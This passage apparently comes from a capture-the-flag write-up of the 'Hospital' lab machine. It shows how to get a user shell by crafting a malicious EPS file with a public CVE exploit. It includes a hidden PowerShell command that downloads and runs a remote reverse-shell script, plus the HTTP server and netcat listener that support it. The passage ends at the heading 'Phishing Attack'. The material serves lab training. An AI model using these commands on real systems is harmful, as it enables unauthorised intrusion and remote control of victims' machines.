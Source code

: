 <script>
function copyToClipboard(btn) {
    const code = btn.closest('.terminal-container').querySelector('code').textContent;
    navigator.clipboard.writeText(code).then(() => {
        btn.innerHTML = '<svg xmlns="http://www.w3.org/2000/svg" width="20" height="20" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="2" stroke-linecap="round" stroke-linejoin="round"><polyline points="20 6 9 17 4 12"></polyline></svg>';
        setTimeout(() => {
            btn.innerHTML = '<svg xmlns="http://www.w3.org/2000/svg" width="20" height="20" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="2" stroke-linecap="round" stroke-linejoin="round"><rect x="9" y="9" width="13" height="13" rx="2" ry="2"></rect><path d="M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1"></path></svg>';
        }, 1500);
    });
}
</script>

## User Shell in AD as drbrown

### Crafting of the Malicious EPS File

We use the exploit, which we get from the CVE founder's github repository to generate a malicious .eps file:

- `python3 EPS2R3VS.py --revshell -ip 10.10.10.10 -port 443 --generate --extension eps`

 Since it isn't pre-created to get a windows reverse shell, we have to change the last line of the created .eps file to our own made Powershell Command. Be sure to change the IP address in the payload to your own.

Powershell Command: `(%pipe%powershell.exe -NoP -NonI -W Hidden -Exec Bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://10.10.10.10/rev.ps1')") (w) file /DCTDecode filter showpage`


Change the .eps file now from:

<img src="https://i.ibb.co/qYCSy2Bt/11.jpg" alt="Hospital" width="750">

to:

<img src="https://i.ibb.co/Zzjdpmzx/12.jpg" alt="Hospital" width="750">

We also have to create a rev.ps1 script containing a basic Windows reverse shell payload from [revshells.com](https://revshells.com)

Next:

Start an HTTP server:
- `python3 -m http.server 80`

Start a netcat listener:
- `nc -lvnp 443`

### Phishing Attack
